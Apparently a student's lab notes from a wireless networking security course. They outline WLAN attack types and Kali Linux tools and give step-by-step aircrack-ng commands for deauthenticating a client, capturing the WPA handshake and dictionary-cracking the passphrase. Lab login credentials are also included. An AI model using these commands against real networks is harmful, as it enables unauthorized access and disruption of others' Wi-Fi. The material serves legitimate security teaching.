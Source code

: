 # Lab 01 - Wireless and Mobile Networks

- Interrupt connection between access point and mobile device, capture reconnect to crack password
- Used captured network traffic from Riccarton Mall and crack authentication dialogues

## WLAN Attack Taxonomy

Passive attacks:

- Traffic analysis
  - Packet size, type, fragmentation info etc.
  - APs periodically send out beacon frames
- Eavesdropping
  - Requires wireless cards with passive packet sniffing (and active packet injection for active attacks)

Active attacks:
- Unauthorized access
  - Masquerade as a legitimate user
  - Access to wireless components may give access to wired components
- Rogue access points (Evil-Twin attack)
  - Interrupt connection, then device automatically reconnects to strongest matching AP
- Man-in-the-middle attacks
  - ARP spoofing - spoof MAC of access point and victim to force all traffic to pass through attacker
- Session hijacking
  - Spoof MAC and force disconnect - in some architectures re-authentication not required
- Replay
  - Capture authentication packets, replay then later
- Denial of Service
  - Attacks against layer 1 (physical) or 2 (data link) cannot be stopped
  - NZ stock exchange attack: attacked DNS server

PSK (pre-shared key) used in labs: each node has string/passphrase that is combined with network SSID to generate unique encryption key for each client (Temporal TODO)

## Tools

Several tools available pre-installed in Kali-Linux

 - `airmon-ng`: set wireless adapter to monitor mode to sniff packets meant for other devices
 - `kismet`: wireless network detector, packet sniffer
 - `iwconfig`: check wireless adapter is in monitor mode
 - `airodump-ng`: capture packets and display access point properties (ethernet address, channel number, speed, etc.)
 - `aireplay-ng`: issue deauthentication packets and capture the automatic reconnection dialogue
 - `aircrack-ng`: decrypting keys captured by `aireplay-ng`
 - `airbase-ng`: establishing access point for evil-twin attack
 - `macchanger`: view/spoof MAC address

('ng' stands for 'next generation' - basically version 2)

Login:

- `cyberlab`: `$CyberLab!`
- `root`: `toor`

## WPA/WPA2 Password Cracking

- Kill DHCP server: `ps-eaf | grep dhc` then `kill -9 {process_id}`
- `iwconfig` to find interface name
- `airodump-ng {wireless_interface}`; scan for networks, determine channel number and MAC address (BSSID - *b*asic **s**ervice **s**et **id**entifier) of target AP
- `airmon-ng stop {wireless_interface}`
- `airmon-ng start {wireless_interface} {channel_number}` to enable monitor mode for a specific channel
- `iwconfig` to find the new monitoring network interface's name
- `airodump-ng -c {ap_channel} --bssid {ap_mac} -w {capture_file_path} {wireless_interface}`
  - Continue running the command
  - `BSSID` is the AP MAC, `STATION` is the victim's MAC
- `aireplay-ng -0 1 -a {ap_mac} -c {vicim_mac} {wireless_interface}`
  - Send 1 deauthentication packet (`-0 1` is short for `--deauth=1`)
    - The device will then automatically reconnect. `airodump-ng` will be able to capture the four-way handshake
      - PSK (pre-shared key) derived from passphrase. Both parties need to prove they hold the key without sending it over the wire
- (Optional) To see it working, go to Wireshark, select correct interface (Capture -> Options), filter using `eapol` (extensible authentication protocol over link layer)
- `aircrack-ng -w {path_to_dictionary} -b {victim_mac} {capture_file_path}`
  - Cracks captured password
